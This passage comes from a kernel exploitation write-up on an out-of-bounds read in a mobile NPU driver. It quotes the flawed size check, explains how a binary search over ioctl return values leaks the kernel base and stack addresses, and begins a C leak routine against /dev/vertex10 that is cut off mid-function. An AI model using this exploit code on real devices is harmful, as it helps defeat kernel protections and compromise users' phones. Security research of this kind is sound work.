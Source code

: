 ```
	...
	for (i = 0; i < FM_cnt; i++) {
		...
		bpp = (formats + i)->pixel_format;
		channels = (formats + i)->channels;
		width = (formats + i)->width;
		height = (formats + i)->height;
		cal_size = (bpp / 8) * channels * width * height;
    ...
#ifndef SYSMMU_FAULT_TEST
		if ((FM_av + i)->size > cal_size) {
			npu_uinfo("in_size(%zu), cal_size(%u) invalid\n", session, (FM_av + i)->size, cal_size);
			ret = NPU_ERR_DRIVER(NPU_ERR_SIZE_NOT_MATCH);
			goto p_err;
		}
#endif
	}
  ...

```

As `(FM_av + i)->size` points to some out of bound range value and `cal_size` consists of pure user supplied data, we can guess what value `(FM_av + i)->size`.

Some people can ask "how to guess `(FM_av + i)->size`'s value? Because we can't get that value into userspace !".

Yeap. But even though we can't directly get kernel value into userspace application, we can guess it via [binary search](https://en.wikipedia.org/wiki/Binary_search_algorithm) based on ioctl's return value. Like [blind sql injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection), if `(FM_av + i)->size > cal_size` is not satisfied, ioctl interface returns failure value to user. So, we can get kernel base and kernel stack address by using this method.

```
unsigned long long _leak(u32 off){
    int res;
    struct vs4l_format format;

leak_retry:
    fd_clear();
    if ((npu_fd = open("/dev/vertex10", O_RDONLY)) < 0){
        goto leak_retry;
    }

    memset(&format, 0, sizeof(format));

    format.stride = 0x0;
    format.cstride =  0x0;
    format.height = 1;
    format.width = 1;
    format.pixel_format = 8;

    unsigned long long g = (0xffffffff) / 2;
    unsigned long long  h = 0xffffffff;
    unsigned long long l = 1;

    ncp_page->memory_vector_offset = 0x200;
    ncp_page->memory_vector_cnt = 0x1;
    ncp_page->address_vector_offset = off;
    ncp_page->address_vector_cnt = 0x1;

    if (npu_graph_ioctl() < 0){
        close(npu_fd);
        fd_clear();
```